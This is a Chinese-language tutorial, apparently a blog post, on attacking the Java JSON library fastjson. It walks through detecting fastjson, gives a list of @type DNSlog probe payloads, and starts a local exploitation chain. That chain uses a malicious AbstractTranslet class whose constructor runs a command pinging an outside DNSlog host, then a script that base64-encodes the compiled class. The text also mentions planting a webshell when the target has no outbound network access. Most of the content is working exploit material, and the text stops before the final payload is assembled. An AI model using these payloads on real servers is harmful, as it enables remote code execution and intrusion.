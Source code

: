 ![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210822095652.png)

# fastjson深入探究

首先如何快速判断是否使用了fastjson呢

第一种方法就是使用报错回显

这里首先在web页面抓包

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210822095653.png)

然后修改GET为POST，添加`Content-Type:application/json`，在发送一个`{"test":"`，即可得到回显

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210822095654.png)

第二种方法就是使用dnslog测试，使用如下payload，这里的dnslog使用dnslog获得的网址进行替换即可

    
    
    {"@type":"java.net.Inet4Address","val":"dnslog"}{"@type":"java.net.Inet6Address","val":"dnslog"}{"@type":"java.net.InetSocketAddress"{"address":,"val":"dnslog"}}{"@type":"com.alibaba.fastjson.JSONObject", {"@type": "java.net.URL", "val":"dnslog"}}""}    {{"@type":"java.net.URL","val":"dnslog"}:"aaa"}Set[{"@type":"java.net.URL","val":"dnslog"}]Set[{"@type":"java.net.URL","val":"dnslog"}{{"@type":"java.net.URL","val":"dnslog"}:0

第三种方法就是使用nc监听端口，在之前漏洞复现中已经讲过，就不再赘述了

我们在前面用到的都是远程加载RMI或LDAP服务端上的恶意类，即远程加载恶意类，在一些情况下，这种远程加载恶意类的方法并不能百分之百能够利用成功，这里就可以使用本地利用方式，就可以不用远程加载恶意类

首先生成test.java文件

    
    
    import com.sun.org.apache.xalan.internal.xsltc.DOM;import com.sun.org.apache.xalan.internal.xsltc.TransletException;import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;import com.sun.org.apache.xml.internal.serializer.SerializationHandler; import java.io.IOException; public class Test extends AbstractTranslet {    public Test() throws IOException {        Runtime.getRuntime().exec("ping test.0g7slo.dnslog.cn");    }     @Override    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) {    }     public void transform(DOM document, com.sun.org.apache.xml.internal.serializer.SerializationHandler[] handlers) throws TransletException {     }     public static void main(String[] args) throws Exception {        Test t = new Test();    }}

这里就可以ping一下dnslog来查看攻击是否成功，这里还有一种情况就是fastjson在真实情况下不出网，那么肯定是不能ping通的，这时候我们就可以选择写入webshell到web路径，前提是要知道绝对路径，或者是使用无文件回显来利用

编译test.java生成class类文件

    
    
    javac test.java

然后对class类文件进行base64编码，这里使用到py脚本

    
    
    import base64fin = open(r"test.class", "rb")fout = open(r"base64.txt", "w")s = base64.encodestring(fin.read()).replace("\n", "")fout.write(s)fin.close()fout.close()
